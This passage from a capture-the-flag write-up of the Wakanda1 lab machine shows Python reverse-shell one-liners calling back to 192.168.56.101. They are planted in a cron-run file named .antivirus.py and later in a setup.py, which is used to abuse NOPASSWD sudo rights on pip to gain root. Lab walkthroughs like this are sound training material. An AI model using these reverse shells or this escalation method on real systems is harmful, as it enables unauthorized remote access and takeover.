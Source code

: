 
```
mamadou@Wakanda1:/srv$ cat .antivirus.py
open('/tmp/test','w').write('test')
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.101",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Next I started a netcat listener on my machine and waited. 5 minutes later, I got a shell as devops:

```
root@kali:~/pwn# nc -lvp 9999
listening on [any] 9999 ...
192.168.56.102: inverse host lookup failed: Unknown host
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 39406
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(devops) gid=1002(developer) groups=1002(developer)
```

I could now get the second flag:

```
$ cat ~/flag2.txt
Flag 2 : d8ce56398c88e1b4d9e5f83e64c79098
```

The next step was to privelage escalate to the root user to get root.txt; which I assumed was in /root. As it turns out, devops has sudo access:

```
$ sudo -l
Matching Defaults entries for devops on Wakanda1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User devops may run the following commands on Wakanda1:
    (ALL) NOPASSWD: /usr/bin/pip
```

So devops can run pip as the root user. That's different. I checked the permissions on /usr/bin/pip and sure enough, it was SUID root. 

```
$ ls -l /usr/bin/pip
-rwxr-sr-- 1 root developer 281 Feb 27  2015 /usr/bin/pip
```

So how to get a root shell? pip can install a package from a local directory when the -e flag is passed to the install option. pip will look for a setup.py in the directory and execute that. So all I needed to do was create a setup.py that would give me a root shell. In this case, I decided to re-use the connect-back script in .antivirus.py and just changed the port number. 

```
$ pwd
/home/devops
$ mkdir win
$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.101",9998));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > win/setup.py
``` 
